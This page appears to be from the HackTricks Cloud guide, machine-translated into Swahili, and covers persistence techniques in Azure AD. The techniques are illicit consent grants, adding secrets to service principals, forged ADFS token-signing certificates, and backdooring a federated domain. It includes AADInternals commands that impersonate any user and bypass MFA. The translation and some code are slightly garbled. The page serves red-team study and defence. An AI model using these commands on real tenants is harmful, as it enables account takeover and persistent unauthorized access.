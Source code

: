 # Az - Uthabiti

{% hint style="success" %}
Jifunze na zoezi la Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoezi la Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks ya Mtaalam wa Timu Nyekundu ya GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Aunga mkono HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

### Kibali cha Siri Haramu

Kwa chaguo-msingi, mtumiaji yeyote anaweza kujiandikisha kwa programu katika Azure AD. Kwa hivyo unaweza kujiandikisha programu (kwa ajili ya mpangaji wa lengo) inayohitaji ruhusa kubwa ya athari na idhini ya msimamizi (na kuipitisha ikiwa wewe ni msimamizi) - kama kutuma barua pepe kwa niaba ya mtumiaji, usimamizi wa jukumu nk. Hii itaturuhusu **kutekeleza mashambulizi ya udukuzi** ambayo ingekuwa **yenye mafanikio** sana kwa kesi ya mafanikio.

Zaidi ya hayo, unaweza pia kukubali programu hiyo na mtumiaji wako kama njia ya kudumisha ufikiaji juu yake.

### Programu na Mabwana wa Huduma

Kwa mamlaka ya Msimamizi wa Programu, GA au jukumu la desturi lenye ruhusa za microsoft.directory/applications/credentials/update, tunaweza kuongeza siri (au cheti) kwa programu iliyopo.

Inawezekana **kulenga programu yenye ruhusa kubwa** au **kuongeza programu mpya** yenye ruhusa kubwa.

Jukumu la kuvutia la kuongeza kwa programu hiyo ni **Jukumu la Msimamizi wa Uthibitishaji wa Kipekee** kwani inaruhusu **kusahau nenosiri** la Wasimamizi wa Kijumla.

Mbinu hii pia inaruhusu **kupuuza MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Kwa uthibitisho kulingana na cheti
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Umoja - Cheti cha Kusainiwa kwa Tokeni

Kwa **madaraka ya DA** kwenye AD ya ndani, niwezekanavyo kuunda na kuagiza **vyeti vipya vya kusaini tokeni** na **vyeti vya kufyatua tokeni** ambavyo vina muda mrefu sana wa uhalali. Hii itatuwezesha **kuingia kama mtumiaji yeyote** ambaye tunajua ImuutableID yake.

**Endesha** amri ifuatayo kama **DA kwenye seva za ADFS** ili kuunda vyeti vipya (nywila ya chaguo ni 'AADInternals'), waongeze kwenye ADFS, zima ugeuzaji wa moja kwa moja na anzisha upya huduma:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Kisha, sasisha habari ya cheti na Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Umoja - Kikoa Kinachotegemewa

Ukiwa na mamlaka ya GA kwenye mpangaji, ni **kawaida kuongeza kikoa kipya** ( lazima ithibitishwe), weka aina yake ya uthibitishaji kuwa Umoja na weka kikoa hicho **kuamini cheti maalum** (any.sts katika amri hapa chini) na mtoaji:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Marejeo

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Jifunze na zoea Udukuzi wa AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Timu Nyekundu Mtaalam (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na zoea Udukuzi wa GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Timu Nyekundu Mtaalam (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
